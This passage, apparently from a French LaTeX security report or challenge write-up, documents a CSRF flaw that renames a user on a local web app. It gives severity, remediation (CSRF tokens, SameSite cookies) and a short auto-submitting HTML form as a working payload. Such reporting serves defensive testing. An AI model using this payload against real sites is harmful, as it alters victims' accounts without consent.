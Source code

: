 \begin{vulnerability}{CSRF ⭐⭐⭐}{A01:2021 - Broken Access Control}{⭐⭐⭐}
    \subsection*{Description}
    Changer le nom d'un utilisateur via une attaque CSRF.
    
    \subsection*{Technique d'exploitation}
    \begin{payload}
<form action="http://[ip]:3000/profile" method="POST">
  <input name="username" value="CSRF"/>
  <input type="submit"/>
</form>
<script>document.forms[0].submit();</script>
    \end{payload}
    
    \subsection*{Impact sur la sécurité}
    \begin{itemize}
        \item \textbf{Sévérité:} Élevée
        \item \textbf{Impact:} Modification non autorisée de données
    \end{itemize}
    
    \subsection*{Recommandations de correction}
    \begin{recommendation}{Critique}
        Utiliser des tokens CSRF et configurer SameSite=Lax pour les cookies.
    \end{recommendation}
\end{vulnerability}

\section{Challenges ⭐⭐⭐⭐ (4 étoiles)}

